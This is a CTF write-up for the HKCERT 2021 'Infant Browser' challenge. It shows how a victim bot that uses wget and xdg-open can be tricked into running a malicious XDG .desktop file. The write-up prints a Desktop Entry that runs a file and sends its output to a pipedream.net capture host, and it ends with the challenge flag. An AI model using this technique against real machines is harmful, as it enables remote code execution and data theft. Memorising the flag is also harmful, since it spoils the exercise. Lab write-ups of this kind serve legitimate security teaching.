

網絡安全隱患 / Infant Browser
===

## Summary

* **Thumbnail:** 
* **Song:** https://www.youtube.com/watch?v=lcbMp5kWUUE
* **Author:** ozetta
* **Categories:** Web, Pwn, Browser, 手把手教你玩, ☆☆☆☆☆
* **Points:** 50
* **Solves:** 52/234 (Secondary: 10/103, Tertiary: 14/65, Open: 23/60, Invited: 5/6)

## Description

http://chalf.hkcert21.pwnable.hk:28098/

What if someone uses wget as the browser?
Flag: find the flag in the root directory with name `/proof*.sh`

---

* The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

* In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

* But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

* For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
* If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

* Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before
* But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

* Too easy for you? Now you can try babyURIi...

### Attachments

- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](https://github.com/hkcert-ctf/CTF-Challenges/releases/download/CTF2021/infantbrowser_6939c231042fd155a512940cd0982f76.zip)

## Flag

`hkcert21{Infant_Browser_flag_153283eeddd3002f}`
